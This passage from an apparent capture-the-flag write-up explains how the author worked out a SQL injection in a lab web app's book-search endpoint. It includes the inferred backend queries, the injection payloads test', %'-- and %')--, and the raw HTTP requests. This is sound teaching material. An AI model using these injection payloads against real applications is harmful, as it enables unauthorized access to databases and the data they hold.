 ```sql
SELECT title, description, author FROM $BOOK_TABLE WHERE title LIKE '$TITLE%' LIMIT 1
```

Also, submitting lowercase and uppercase characters doesn't seem to affect the results of the query. This indicates that the input `title` and the values from the `title` column are probably being lowercased before being compared, like so:

```sql
SELECT title, description, author FROM $BOOK_TABLE WHERE lower(title) LIKE '$TITLE%' LIMIT 1
```

Confirm the presence of the SQL injection vulnerability by injecting the title `test'`, causing the execution of the SQL query

```sql
SELECT title, description, author FROM $BOOK_TABLE WHERE lower(title) LIKE 'test'%' LIMIT 1
```

whose mismatched single quotes should cause the SQL query to fail.

```http
GET /challenge6/book?title=test' HTTP/1.1
Host: 10.10.141.250:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: session=.eJyrVkrOSMzJSc1LTzWLLy1OLYrPTFGyMtNBF85LzE1VslIqSc_MSFPSUcpNzMxLLCiILyxNLapUskpLzClOrQUAHh4bmA.YQ8GJg.Dld_9hHLGCER2geRTTYpc2xkKZE
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Cache-Control: max-age=0
```

The requests causes no books to be returned, as expected. However, this doesn't necessarily confirm the presence of the vulnerability. It could just be that there are no books with the title `test'`, which is to be expected. To confirm the presence of the vulnerability, inject the title `%'--`, which should cause the execution of the following query:

```sql
SELECT title, description, author FROM $BOOK_TABLE WHERE lower(title) LIKE '%'--%' LIMIT 1
```

This should cause the application to return all books, but it doesn't.

Looking at the challenge page, it seems that the backend is *actually* using the following nonsensical query:

```sql
SELECT * from books WHERE id = (SELECT id FROM books WHERE title like '$TITLE%')
```

Thus, the title `%'--` was not closing the right paranthesis, causing a syntax error. The title `%')--` should dump the first book.

```http
GET /challenge6/book?title=%')-- HTTP/1.1
Host: 10.10.141.250:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: session=.eJyrVkrOSMzJSc1LTzWLLy1OLYrPTFGyMtNBF85LzE1VslIqSc_MSFPSUcpNzMxLLCiILyxNLapUskpLzClOrQUAHh4bmA.YQ8GJg.Dld_9hHLGCER2geRTTYpc2xkKZE
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Cache-Control: max-age=0
```
